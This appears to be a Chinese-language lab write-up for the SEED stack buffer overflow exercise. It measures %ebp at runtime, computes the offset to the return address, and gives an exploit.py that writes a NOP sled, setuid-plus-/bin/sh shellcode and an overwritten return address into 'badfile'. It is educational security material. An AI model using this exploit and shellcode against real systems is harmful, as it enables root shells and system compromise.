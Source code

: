 为了验证上面关于 %ebp 寄存器在程序实际运行时的值大于使用 gdb 调试时的值的说法，我们将 bof 函数修改如下，stack.c 代码中的其余部分保持不变，这里使用内联汇编在运行时获取并打印 %ebp 寄存器和 buffer 起始地址的值。

```c{.line-numbers}
int bof(char *str) {
    char buffer[BUF_SIZE];
    unsigned long ebp_value;
    __asm__ volatile ("movl %%ebp, %0" : "=r" (ebp_value));
    printf("buffer:%p  ebp:0x%lx\n", buffer, ebp_value);
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}
```

同样使用 **`gcc -m32 -o stack_l1_gdb -z execstack -fno-stack-protector stack.c -g`** 命令编译并得到二进制程序 stack_l1_gdb，然后运行得到的结果如下所示，**<font color="red">可以看出，运行时 %ebp 的值 **`0xffffcec8`** 大于使用 gdb 调试时获取到的 %ebp 值</font>** **`0xffffce58`**。

```c{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ ./stack_l1_gdb 
buffer:0xffffce58  ebp:0xffffcec8
Returned Properly
```

从以上的执行结果可以看出，帧指针 %ebp 的实际值是 **`0xffffcec8`**。因此返回地址保存在 **`0xffffcec8+4`** 中，并且第一个 NOP 指令在 **`0xffffcec8+8`**。因此，可以将 **`0xffffcec8+8`** 作为恶意代码的入口地址，把它写入返回地址字段中。

由于输入将被复制到 buffer 中，为了让输入中的返回地址字段准确地覆盖栈中的返回地址区域，**需要知道栈中 buffer 和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置**。

从调试信息可以轻松地获知 buffer 的起始地址，然后计算出从 %ebp 到 buffer 起始处的距离。通过计算，得到的结果是 112，因此返回地址区域到 buffer 起始处的距离就是 116。

因此，我们使用如下的 exploit.py 文件构造 badfile 输入：

```python{.line-numbers}
import sys

shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"

    "\x31\xc0"
    "\x50"
    "\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x31\xd2"
    "\x31\xc0"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')

content = bytearray(0x90 for i in range(400))
content[400 - len(shellcode):] = shellcode

ret = 0xffffcec8 + 50
content[116:120] = (ret).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```